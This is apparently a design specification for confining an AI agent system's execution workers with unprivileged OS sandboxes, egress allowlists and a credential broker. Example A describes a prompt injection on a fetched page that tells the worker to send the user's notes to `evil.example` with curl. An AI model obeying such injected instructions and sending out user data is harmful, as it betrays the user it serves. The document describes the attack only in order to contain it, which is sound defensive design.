


# Sandboxing

> **Status:** In Review
>
> **Version:** 0.2   ·   **Last updated:** 2026-06-05
>
> **Purpose:** The execution-isolation substrate — how the System runs a Task's tools/code inside a confined **execution worker** so a hijacked or buggy worker cannot reach the host, the network, secrets, or other Spaces. Owns the **per-agent sandbox profile**, the **pluggable userspace backends** (native OS primitives by default; Docker optional), and the **best-effort enforcement** model. **Hard constraint: the System has no root — every default backend runs in user space.**
>
> **Depends on:** [constitution](constitution.md), [agents](agents.md), [agent-orchestration](agent-orchestration.md), [prompt-injection](prompt-injection.md), [tasks](tasks.md)   ·   **Defers mechanics to:** [permissions](permissions.md), [privacy-security](privacy-security.md), [secrets](secrets.md), [tools](tools.md), [skills](skills.md), [app-architecture](app-architecture.md)

> Requirement tag: **SBX**

---

## 1. Purpose & Scope

This spec owns **how tool/code execution is contained**. It defines:

- the **sandbox profile** — a per-agent, OS-agnostic declaration of what a worker may touch (filesystem, network, exec, resources);
- the **backends** that enforce a profile — **native OS primitives** (Linux Landlock+seccomp, macOS Seatbelt, Windows restricted-token), all **unprivileged**, plus an **optional Docker** backend;
- **best-effort enforcement** — apply the strongest subset the platform supports and surface any residual gap;
- the **boundary**: the **execution worker** is sandboxed; the **trusted orchestrator** (which calls the model and injects Memory) stays outside.

It is the **innermost containment layer (L4)** of the [prompt-injection](prompt-injection.md) defense stack (REQ-PINJ-11).

## 2. Non-Goals / Out of Scope

- **Not the permission gate.** Whether an action is allowed/Ask-first/Never is [permissions](permissions.md) / [constitution](constitution.md) §5; sandboxing **contains** what a permitted worker can reach.
- **Not secrets storage/auth.** Credential custody is [secrets](secrets.md) / [privacy-security](privacy-security.md); this spec only fixes that **secrets never enter the sandbox** (REQ-SBX-13).
- **Not a VM/hypervisor and not Docker-required.** The defaults are **userspace OS primitives**; a heavier VM/MicroVM is out of scope (Docker is an *optional* backend, REQ-SBX-08).
- **Not the tool/skill catalog.** [tools](tools.md) / [skills](skills.md) define *what* runs; this spec confines *how* it runs.
- **Not the worker runtime/process model.** Owned by [app-architecture](app-architecture.md); this spec specifies the isolation it must apply.

## 3. Background & Rationale

A Task's worker runs the riskiest code in the System: `exec`, file edits, browser drives, fetches of untrusted content. Even with the gates (P12, Ask-first), a hijacked worker must be **bounded** — that is the sandbox's job (OWASP *least privilege*; the L4 layer of [prompt-injection](prompt-injection.md)).

Two constraints shape the design:

1. **No root, user space.** The System is self-hosted and runs as an ordinary user. Container/MicroVM sandboxes (OpenClaw, nanoclaw) need a Docker daemon — effectively root — so they are **optional**, not the default. The good news: every major OS now exposes **unprivileged** sandbox primitives a process can apply to **itself** or a child — Linux **Landlock + seccomp-bpf**, macOS **Seatbelt** (`sandbox-exec`), Windows **restricted tokens**. These are the defaults.

2. **Per-agent capability.** Different agents need different reach — a read-only `Research` worker, an acting `Ops` worker. So the sandbox is **configured per agent** (the `sandbox` field, [agents](agents.md) REQ-AGENT-11), expressed once as a declarative profile and enforced by whichever backend is active.

The design borrows nanoclaw's **principle** — *sandbox the whole agent, not just its tools* — and OpenClaw's **profile model** (fs/network/exec/resource limits), but replaces their Docker mechanism with **native userspace backends**.

**Target platforms: current OS releases.** The System targets a **recent Linux kernel** (Landlock ≥ v4, cgroups v2, modern `systemd`, rootless Podman), **macOS 26+ on Apple silicon** (Seatbelt + Apple `container`), and **Windows 11**. The modern unprivileged primitives above are therefore the **baseline, not the exception** — full containment is the expected case, and the best-effort fallbacks (REQ-SBX-09) exist only for older or hardened hosts, not as the design center.

## 4. Concepts & Definitions

- **Execution worker** — the process that runs a Task leaf's tool/code calls ([agent-orchestration](agent-orchestration.md)). The unit that gets sandboxed.
- **Sandbox profile** — a per-agent, OS-agnostic declaration of allowed filesystem / network / exec / resources (§5.3).
- **Backend** — an enforcer that translates a profile into OS controls: *process-level native* (Linux/macOS/Windows) or an *OCI container* (Podman, Apple `container`, Docker).
- **Rootless container** — an OCI container run **without root or a daemon** (Podman via user namespaces; Apple `container` as a per-container VM) — container-grade isolation that still satisfies the no-root constraint.
- **Userspace / unprivileged** — applied without root or a privileged daemon; the worker self-restricts (or is spawned restricted).
- **Egress allowlist** — the set of network destinations a worker may reach; everything else is denied.
- **Best-effort enforcement** — apply the strongest subset the platform supports; surface the residual gap rather than fail or pretend.
- **Residual gap** — containment a backend *could not* apply on this host (e.g., kernel too old for Landlock).

## 5. Detailed Specification

### 5.1 The model — a sandboxed worker, a trusted orchestrator

> **REQ-SBX-01.** Tool/code execution runs inside a confined **execution worker**; the **orchestrator stays outside the sandbox**. The orchestrator is trusted — it makes the model calls and performs Memory recall, then hands the worker a **self-contained prompt** ([agent-orchestration](agent-orchestration.md) REQ-AORCH-04) and dispatches it under a sandbox profile. The System sandboxes the **whole worker** (not merely individual tool invocations), so a hijack anywhere in the worker — model loop, parser, tool — is contained by the same boundary. This fits **depth-1**: a worker is a flat leaf that cannot widen its own confinement.

### 5.2 Userspace, no root

> **REQ-SBX-02.** Every **default** backend applies **without root or a privileged daemon**. The worker **self-applies** the sandbox (or is spawned already-restricted): on Linux it calls `prctl(PR_SET_NO_NEW_PRIVS)` then installs Landlock + seccomp; on macOS it is launched under `sandbox-exec`; on Windows it runs under a restricted token derived from the current user. **No backend may require elevation to provide its baseline containment.** (Docker — REQ-SBX-08 — is the one optional exception and is never the default precisely because it needs a daemon.)

### 5.3 The sandbox profile (per-agent, declarative)

> **REQ-SBX-03.** Each agent carries a **sandbox profile** ([agents](agents.md) REQ-AGENT-11) — an OS-agnostic declaration the backends enforce. It has four capability groups, **default-deny**:
> - **`filesystem`** — a writable `workspace` root, plus explicit `readOnly[]` / `readWrite[]` paths; everything else is invisible/denied.
> - **`network`** — `egress: none | allowlist | all`; with `allowlist`, only listed hosts/ports are reachable.
> - **`exec`** — whether the worker may spawn subprocesses, and an optional `allowedBinaries[]`.
> - **`resources`** — `cpus`, `memoryMB`, `pids`, and a `wallClock` timeout.
>
> Built-in roles ship sensible defaults (e.g. `Research`: read-only workspace, egress allowlist of fetch/search endpoints, **no exec**; `Ops`: rw workspace, exec on, narrow egress). The schema is §7.1.

### 5.4 Pluggable backends

> **REQ-SBX-04.** The profile is the **contract**; a **backend** enforces it. Backends come in three families — **process-level native primitives** (§5.5–§5.7), a **systemd** declarative backend on Linux (§5.17), and **OCI container runtimes** (§5.8). The System **auto-selects the strongest backend available *without elevation*** — a **rootless container runtime** (Podman on Linux, Apple `container` on macOS) when present, otherwise systemd or the native primitives — or honors an explicit per-agent/global choice. Backends are interchangeable (the same profile yields equivalent confinement on each); the active backend + effective profile are recorded (REQ-SBX-15).

### 5.5 Linux backend (native, unprivileged)

> **REQ-SBX-05.** On Linux the worker confines itself with **Landlock** (filesystem access control, kernel ≥ 5.13, no root) + **seccomp-bpf** (syscall filtering, including blocking outbound network syscalls — `connect`/`bind`/`sendto`/… — to enforce `egress: none`) + **`PR_SET_NO_NEW_PRIVS`** (so no exec can regain privilege) + **rlimits / cgroups v2** (user-session delegation) for resources, and **optional unprivileged user namespaces** (or `bubblewrap`) for mount/pid/net isolation where available. All of these apply **without root**.

### 5.6 macOS backend (native, unprivileged)

> **REQ-SBX-06.** On macOS the worker runs under **Seatbelt** — `sandbox-exec`/`sandbox_init` with a generated **SBPL** profile operating on a **default-deny** model — constraining filesystem reads/writes, network, and process operations for the whole subprocess tree. No root required.

### 5.7 Windows backend (native, unprivileged)

> **REQ-SBX-07.** On Windows the worker runs under a **restricted token** derived from the current user (no admin), with **filesystem ACL boundaries** and **Windows Firewall rules** for network, and a **Job Object** (CPU/memory/PID caps + kill-on-close) and **lowered integrity level** for blast-radius control; an **AppContainer/lowbox** profile may further isolate it where available. The unelevated path is the default; elevated provisioning (dedicated sandbox users) is an optional enhancement, never required.

### 5.8 Container backends (optional, OCI)

> **REQ-SBX-08.** When a container runtime is available, the profile may instead be enforced by an **OCI container** — stronger, image-based isolation. All map the same profile to container controls (the OpenClaw model: `--cap-drop ALL`, `--security-opt no-new-privileges`, `--read-only` + `--tmpfs`, `--network none`/allowlist, `--pids-limit`, `--memory`, `--cpus`, optional `seccomp=`/`apparmor=`). Three runtimes, in preference order:
> - **Podman (Linux) — rootless & daemonless** *(preferred, default-capable)*: runs as the user via **user namespaces** (`/etc/subuid`/`subgid`), **`pasta`/`slirp4netns`** for unprivileged egress control, **`crun`** runtime (cgroups v2 + userns). Needs **no daemon and no root** (satisfies REQ-SBX-02), so — unlike Docker — it can be auto-selected where present, falling back to the Linux native primitives (§5.5) if `subuid`/cgroups-v2 delegation are missing. Adds container-grade filesystem/PID/mount isolation on top of the OCI flag mapping.
> - **Apple `container` (macOS) — native, per-container VM**: runs each worker in its **own lightweight VM** via **Virtualization.framework** (one-VM-per-container, OCI images, macOS 26 + Apple silicon) — VM-grade isolation without Docker Desktop or root; the profile maps to the VM's mounts, dedicated network interface (egress), and VM resource caps. On Intel/older macOS, falls back to Seatbelt (§5.6).
> - **Docker** — Docker-CLI-compatible with the above, but needs a **daemon (≈root)**, so it is **never the default** and used only when explicitly configured.

### 5.9 Best-effort enforcement & warning

> **REQ-SBX-09.** A backend applies the **strongest subset of the profile the host supports**, and when it **cannot** apply a control (Landlock absent on an old kernel, unprivileged user namespaces disabled, `sandbox-exec` unavailable, no Docker daemon), it **proceeds with what it can** and **surfaces the residual gap** — a warning recorded to the [activity-log](activity-log.md) and, for an acting worker, a quiet **`security` Situation** ([situations](situations.md), [prompt-injection](prompt-injection.md) REQ-PINJ-14). The System **never silently claims full containment**: the effective (degraded) profile is always observable (REQ-SBX-15).

### 5.10 Network egress (per-agent)

> **REQ-SBX-10.** Egress is **per-agent** and backend-enforced: seccomp-bpf (Linux), the SBPL `network` clause (macOS), Firewall rules / AppContainer capabilities (Windows), or `--network`/an egress proxy (Docker). Setting `egress: none` or `allowlist` **breaks the exfiltration leg of the lethal trifecta** ([prompt-injection](prompt-injection.md) REQ-PINJ-06) — a hijacked worker has nowhere to send stolen data. Authed outbound flows through the broker (REQ-SBX-13), not direct from the worker.

### 5.11 Filesystem scope

> **REQ-SBX-11.** Filesystem access is **default-deny**: a worker sees only its `workspace` (rw) and explicitly granted `readOnly`/`readWrite` paths. Host secrets, SSH keys, the user's home, and **other Spaces' data** are **unreachable** ([constitution](constitution.md) P10). Enforced by Landlock rules (Linux), SBPL path rules (macOS), ACLs (Windows), or bind-mount scoping (Docker). Symlink and `..` escapes are denied by the same rules.

### 5.12 Resource limits & timeouts

> **REQ-SBX-12.** Every profile carries **`cpus` / `memoryMB` / `pids` / `wallClock`** caps that bound a runaway or hijacked worker — the containment analogue of action budgets ([prompt-injection](prompt-injection.md) REQ-PINJ-12, [agents](agents.md) `max_iterations`). Enforced via rlimits/cgroups (Linux), `RLIMIT_*` + a watchdog (macOS), a Job Object (Windows), or `--pids-limit`/`--memory`/`--cpus` (Docker). A worker exceeding `wallClock` is killed and its Task fails ([tasks](tasks.md)).

### 5.13 Secrets never enter the sandbox

> **REQ-SBX-13.** **No credential is placed in the worker's environment or filesystem.** Outbound calls that need authentication are routed through a **credential broker / egress proxy** that injects the secret **outside** the worker, at request time — the worker only ever holds an **opaque handle** ([constitution](constitution.md) §5, [secrets](secrets.md) / [privacy-security](privacy-security.md)). So even a fully compromised worker has **nothing to exfiltrate** from its own context (the nanoclaw vault principle).

### 5.14 The L4 containment role

> **REQ-SBX-14.** Sandboxing is the **innermost** layer of the defense-in-depth stack ([prompt-injection](prompt-injection.md) REQ-PINJ-03/11): when fencing, model judgment, and the permission gate have all failed, a hijacked worker is **still** bounded by its fs/network/exec/resource profile. Because enforcement is **best-effort** (REQ-SBX-09), the sandbox is **never the only** line of defense — it backs the gates, it does not replace them.

### 5.15 Observability

> **REQ-SBX-15.** Every sandbox launch records, to the [activity-log](activity-log.md): the **active backend**, the **effective profile** (including any degradation per REQ-SBX-09), and the worker/Task it confines. **Denied attempts** — blocked syscalls, fs accesses, egress connections — are logged as telemetry, feeding the same surfacing path as detected injection ([prompt-injection](prompt-injection.md) REQ-PINJ-14).

### 5.16 Ownership & non-duplication

> **REQ-SBX-16.** This spec **owns** the profile schema, the backends, and enforcement. The per-agent `sandbox` field is declared in [agents](agents.md) (REQ-AGENT-11) and **references this schema**. **Widening** a profile (granting a new path, opening egress, enabling exec) is an **Ask-first** action ([permissions](permissions.md), [constitution](constitution.md) §5). The credential broker is [secrets](secrets.md)/[privacy-security](privacy-security.md); the worker runtime is [app-architecture](app-architecture.md); what runs sandboxed is [tools](tools.md)/[skills](skills.md). This spec **constrains** them; it does not re-specify them.

### 5.17 systemd backend (Linux, `systemd-run --user`)

> **REQ-SBX-17.** On Linux with a user **systemd** manager, the profile may be enforced by a **transient user unit** — `systemd-run --user --scope` (or a transient service) — which is **unprivileged** (it runs inside the caller's user session, no root). systemd maps the profile to declarative **unit hardening** directives over the same kernel primitives: filesystem via `ReadOnlyPaths=`/`ReadWritePaths=`/`InaccessiblePaths=`/`ProtectHome=`/`ProtectSystem=strict`/`PrivateTmp=`; network via `PrivateNetwork=`/`RestrictAddressFamilies=`; exec & privilege via `NoNewPrivileges=`/`SystemCallFilter=` (seccomp)/`RestrictNamespaces=`/`LockPersonality=`; resources via `MemoryMax=`/`CPUQuota=`/`TasksMax=` (cgroups v2, user-delegated). It is a convenient **declarative front-end** to §5.5's primitives (seccomp/cgroups/namespaces), **default-capable** where a user manager + cgroups-v2 delegation exist; directives the user manager cannot apply degrade per best-effort (REQ-SBX-09), falling back to the raw native primitives (§5.5).

## 6. Visualizations

### 6.1 Orchestrator (trusted) vs worker (sandboxed)



### 6.2 One profile → many backends



## 7. Data Shapes

Conceptual ([app-architecture](app-architecture.md) owns persistence).

### 7.1 The sandbox profile

```go
type SandboxProfile struct {
    Name       string
    Filesystem FilesystemPolicy
    Network    NetworkPolicy
    Exec       ExecPolicy
    Resources  ResourceLimits
    Env        map[string]string // explicit; never secrets (REQ-SBX-13)
}

type FilesystemPolicy struct {
    Workspace string   // the one rw root the worker owns
    ReadOnly  []string // additional read-only paths
    ReadWrite []string // additional read-write paths
    // everything else is denied (default-deny, REQ-SBX-11)
}

type EgressMode string // "none" | "allowlist" | "all"
type NetworkPolicy struct {
    Egress    EgressMode
    Allowlist []string // host[:port] / domains, when Egress == "allowlist"
}

type ExecPolicy struct {
    Allow           bool
    AllowedBinaries []string // optional narrowing when Allow
}

type ResourceLimits struct {
    CPUs      float64
    MemoryMB  int
    PIDs      int
    WallClock string // e.g. "120s" (REQ-SBX-12)
}
```

### 7.2 Capability → backend mapping

| Profile field | Linux (native) | macOS (native) | Windows (native) | Container (OCI) |
|---|---|---|---|---|
| filesystem | Landlock rules | SBPL `file-read*`/`file-write*` | token + ACLs | bind mounts (`:ro`/`:rw`), `--read-only`; Apple: VM mounts |
| network egress | seccomp-bpf (block `connect`/…) | SBPL `network` clause | Firewall rules / AppContainer | `--network none`/proxy; Podman `pasta`/`slirp4netns` |
| exec | seccomp + `no_new_privs` | SBPL `process-exec` | restricted token | image + `--cap-drop ALL` |
| resources | rlimits / cgroups v2 | `RLIMIT_*` + watchdog | Job Object | `--pids-limit`/`--memory`/`--cpus`; Apple: VM caps |
| privilege | **none (unprivileged)** | **none (unprivileged)** | **none (unelevated)** | **Podman / Apple: none** · Docker: daemon (≈root) |

Linux also has a **systemd** backend (§5.17): `systemd-run --user` maps the profile to unit-hardening directives — `SystemCallFilter=` (seccomp), `ProtectSystem=`/`ReadOnlyPaths=`, `RestrictAddressFamilies=`/`PrivateNetwork=`, `MemoryMax=`/`CPUQuota=`/`TasksMax=` — over the same primitives, declaratively and unprivileged.

## 8. Examples & Use Cases

Cast per [constitution](constitution.md) §7.

### Example A — a `Research` worker on Linux (read-only, no exfil)

Devin asks the System to research a competitor. The `Research` agent's profile: `filesystem.workspace` rw, the docs dir `readOnly`, `network.egress: allowlist` (search + the two fetch domains), **`exec.allow: false`**. On Linux the worker calls `PR_SET_NO_NEW_PRIVS`, installs **Landlock** (only those paths) and a **seccomp-bpf** filter that blocks `connect` to anything off the allowlist and blocks `execve`. A page it fetched carries an injection telling it to `curl evil.example` with the user's notes — the worker has **no exec and no egress to evil.example**, so the attack is inert (REQ-SBX-05/10/11).

### Example B — an `Ops` worker on macOS (acting, narrow reach)

An `Ops` worker runs a build step. Profile: `workspace` rw, `exec.allow: true` (`allowedBinaries: [git, go, node]`), `egress: allowlist` (the package registry), `resources: {cpus: 2, memoryMB: 2048, pids: 256, wallClock: 300s}`. It launches under **`sandbox-exec`** with a generated **SBPL** profile (default-deny) scoping files, the registry network, and process-exec. A runaway loop hits the `wallClock` cap and is killed; the Task fails cleanly (REQ-SBX-06/12).

### Example C — degraded host (best-effort + warn)

The same `Ops` worker runs on an older Linux kernel without Landlock and with unprivileged user namespaces disabled. The backend still applies **seccomp-bpf + `no_new_privs` + rlimits**, but **cannot** enforce the filesystem scope. It proceeds and **records the residual gap** — an activity-log warning plus a quiet `security` Situation: *"filesystem confinement unavailable on this host; worker ran with syscall + resource limits only."* The System never claimed full containment (REQ-SBX-09/15).

## 9. Edge Cases & Failure Modes

- **Unprivileged userns disabled** (Debian/RHEL hardening) — fall back to Landlock+seccomp without mount/net namespaces; warn (REQ-SBX-09).
- **Landlock too old** (kernel < 5.13) — seccomp + rlimits only for that worker; filesystem scope degraded; warn.
- **`sandbox-exec` deprecation** (macOS) — still functional and used; tracked as OQ-SBX-2 should Apple remove it.
- **Windows without admin** — the unelevated restricted-token path is the default; no dedicated sandbox user (REQ-SBX-07).
- **No container runtime** — if Podman / Apple `container` / Docker are all absent, the native process backends are used (REQ-SBX-04/08).
- **Apple `container` unavailable** — needs macOS 26 + Apple silicon; on Intel or older macOS, fall back to Seatbelt (REQ-SBX-08/06).
- **Podman rootless prerequisites** — needs `subuid`/`subgid` ranges + cgroups v2 user delegation; absent → fall back to the Linux native primitives (REQ-SBX-08/05).
- **No user systemd manager** (or cgroups-v2 not delegated) — the systemd backend is unavailable; fall back to the raw native primitives (REQ-SBX-17/05).
- **Symlink / `..` / `/proc` escape** — denied by Landlock/SBPL/ACL path rules (REQ-SBX-11); `/proc` and `/sys` are not granted.
- **Secret leak via env** — prevented structurally: secrets are never in the worker env (REQ-SBX-13); only opaque handles.
- **Egress via DNS/loopback** — the allowlist is enforced at the syscall/firewall layer, not just by hostname; loopback to host services is denied unless granted.

## 10. Open Questions & Decisions

- **OQ-SBX-1** — Concrete Go implementation: `landlock-go` + raw seccomp via `golang.org/x/sys/unix` (Linux); `sandbox_init` via cgo vs shelling out to `sandbox-exec` (macOS); restricted-token/Job-Object via `x/sys/windows` (Windows). Owned by [app-architecture](app-architecture.md).
- **OQ-SBX-2** — Whether to **bundle `bubblewrap`** as a Linux fallback for mount/net namespacing, vs native userns only.
- **OQ-SBX-3** — cgroups v2 resource caps need **user-session delegation** (systemd) — confirm the deployment provides it, else rlimits-only.
- **OQ-SBX-4** — Should the [constitution](constitution.md) §5 table gain an explicit **"run code / exec"** row (currently implied)? Raised here; not edited unilaterally.
- **OQ-SBX-5** — The egress **proxy** vs in-worker allowlist for `allowlist` mode — proxy gives central policy + audit but adds a hop.

## 11. Review & Acceptance Checklist

- [ ] The worker is sandboxed; the orchestrator stays outside; the whole worker is confined, not just tools (REQ-SBX-01).
- [ ] Every default backend is **unprivileged / no-root** (REQ-SBX-02); the Linux/macOS/Windows natives (REQ-SBX-05/06/07), the **systemd** backend (REQ-SBX-17), and the **container** family — rootless Podman + Apple `container`, with Docker optional — (REQ-SBX-08) are specified.
- [ ] The **per-agent profile** schema (filesystem/network/exec/resources, default-deny) is specified and tied to the agent `sandbox` field (REQ-SBX-03/16, §7.1).
- [ ] Backends are pluggable with auto-selection (REQ-SBX-04); enforcement is **best-effort + warn**, never a silent claim of full containment (REQ-SBX-09/15).
- [ ] Per-agent egress (REQ-SBX-10), default-deny filesystem (REQ-SBX-11), resource/timeout caps (REQ-SBX-12), and secrets-never-in-the-sandbox (REQ-SBX-13) are specified.
- [ ] The L4 containment role and its best-effort caveat are stated (REQ-SBX-14). Examples use the [constitution](constitution.md) §7 cast; no placeholders.

## 12. Cross-References

- [agents](agents.md) REQ-AGENT-11 — the per-agent `sandbox` field that references this schema.
- [prompt-injection](prompt-injection.md) REQ-PINJ-11 (L4 containment), REQ-PINJ-06 (breaking the exfiltration leg), REQ-PINJ-12 (action budgets).
- [constitution](constitution.md) §5 (Ask-first to widen a profile; secrets-as-opaque-handles) · P10 (no cross-Space reach).
- [agent-orchestration](agent-orchestration.md) (dispatch of the worker) · [tasks](tasks.md) (a killed worker fails its Task) · [situations](situations.md) / [activity-log](activity-log.md) (degradation + denied-attempt telemetry).
- **Mechanics:** [permissions](permissions.md) · [privacy-security](privacy-security.md) · [secrets](secrets.md) · [tools](tools.md) · [skills](skills.md) · [app-architecture](app-architecture.md) · [ai-models](ai-models.md).

**Design lineage.** Code-grounded + the native-primitive literature (read this session):

**◆ Source pattern — OpenClaw, the Docker sandbox profile** (local: `src/config/types.sandbox.ts`, `src/agents/sandbox/docker.ts`). The profile fields + flag mapping our **optional** Docker backend follows; `no-new-privileges` is always set:
```text
// types.sandbox.ts (fields)
readOnlyRoot?, tmpfs?, network?, user?, capDrop?, pidsLimit?, memory?, cpus?,
seccompProfile?, apparmorProfile?, dns?, extraHosts?, binds?
// docker.ts buildSandboxCreateArgs() → docker create flags
if (cfg.readOnlyRoot) args.push("--read-only");
for (const cap of cfg.capDrop) args.push("--cap-drop", cap);   // default ["ALL"]
args.push("--security-opt", "no-new-privileges");              // always
if (cfg.network) args.push("--network", cfg.network);          // default "none"
```
*Used here:* the profile model (REQ-SBX-03) and the Docker backend (REQ-SBX-08). We keep the *fields* and drop the *daemon*.

**◆ Source pattern — nanoclaw, sandbox the whole agent** (`github.com/nanocoai/nanoclaw`). The principle (not the Docker mechanism) we adopt:
> "Claude agents run in their own Linux containers with filesystem isolation, not merely behind permission checks."
>
> "Credentials never enter the container — outbound API requests route through OneCLI's Agent Vault, which injects authentication at the proxy level."

*Used here:* sandbox the whole worker (REQ-SBX-01); secrets never enter the sandbox, broker injects at request time (REQ-SBX-13).

**◆ Source pattern — native, unprivileged OS primitives** (Codex sandbox platform write-up, `codex.danielvaughan.com`; nono `os-sandbox`). Confirms each default backend runs **without root**:
> macOS: "Codex leverages Apple's built-in Seatbelt framework through `/usr/bin/sandbox-exec`" generating an SBPL profile that "operates on a **default-deny** model."
>
> Linux: "Landlock (available from kernel 5.13) provides capability-based filesystem access control without requiring root privileges"; "seccomp-BPF … blocks outbound network syscalls including `connect`, `accept`, `bind`, `listen`, `sendto`, and `sendmsg`"; the process "calls `prctl(PR_SET_NO_NEW_PRIVS)` before restrictions apply."
>
> Windows: an "unelevated (fallback) deriving tokens from the current user without admin rights," with "ACLs" and "Windows Firewall rules for network control."

*Used here:* REQ-SBX-05/06/07 (the three native backends) and REQ-SBX-02 (no-root). Also: **OWASP** least-privilege / sandboxing guidance for the defense-in-depth framing.

**◆ Source pattern — rootless containers without a daemon** (`github.com/containers/podman`; `github.com/apple/container`). The container backends that keep the no-root constraint:
> Podman "is daemonless; it does not require a daemon, unlike docker." "When run without root, Podman uses user namespaces to map the root user inside the container to the non-root user running Podman" — networking via `pasta`/`slirp4netns`, runtime `crun`.
>
> Apple `container`: "create and run Linux containers as lightweight virtual machines," using a **one-VM-per-container** architecture on **Virtualization.framework** (macOS 26, Apple silicon) — OCI-compatible images.

*Used here:* REQ-SBX-08 — **Podman** (rootless, Linux) and **Apple `container`** (per-container VM, macOS) as **default-capable** container backends; Docker only when a daemon is configured.

## 13. Changelog

- **2026-06-05 — v0.1** — Initial draft. The sandboxed-worker / trusted-orchestrator model (REQ-SBX-01); the **no-root userspace** constraint (REQ-SBX-02); the **per-agent declarative profile** schema (REQ-SBX-03, §7.1); pluggable backends with auto-selection (REQ-SBX-04); the three **native unprivileged backends** — Linux Landlock+seccomp+`no_new_privs` (REQ-SBX-05), macOS Seatbelt/`sandbox-exec` (REQ-SBX-06), Windows restricted-token+ACL+Firewall+Job-Object (REQ-SBX-07); the **optional Docker** backend (REQ-SBX-08); **best-effort enforcement + warning** (REQ-SBX-09); per-agent egress (REQ-SBX-10), default-deny filesystem (REQ-SBX-11), resource/timeout caps (REQ-SBX-12), secrets-never-in-the-sandbox via a broker (REQ-SBX-13); the L4 containment role (REQ-SBX-14); observability (REQ-SBX-15); ownership/non-duplication (REQ-SBX-16). Code-grounded in OpenClaw (`types.sandbox.ts`/`docker.ts`) with verbatim ◆ Source-patterns; nanoclaw's whole-agent principle and the native-primitive literature (Codex/nono/OWASP) cited — no fabricated nanoclaw internals. In Review.
- **2026-06-05 — v0.2** — Added **container backends** to REQ-SBX-08: **rootless Podman** (Linux, daemonless — default-capable) and **Apple `container`** (macOS, one-VM-per-container via Virtualization.framework) as no-root container runtimes, with Docker remaining daemon-only/optional. Added the **systemd backend** (REQ-SBX-17) — `systemd-run --user` mapping the profile to unit-hardening directives (`SystemCallFilter`/`ProtectSystem`/`RestrictAddressFamilies`/`MemoryMax`…) over the same primitives, unprivileged. Set the **target to current OS releases** (recent Linux kernel, macOS 26+ on Apple silicon, Windows 11) so the modern unprivileged primitives are the baseline. Updated §6.2 diagram, §7.2 mapping, concepts, and edge cases; ◆ Source pattern for Podman/Apple `container`.
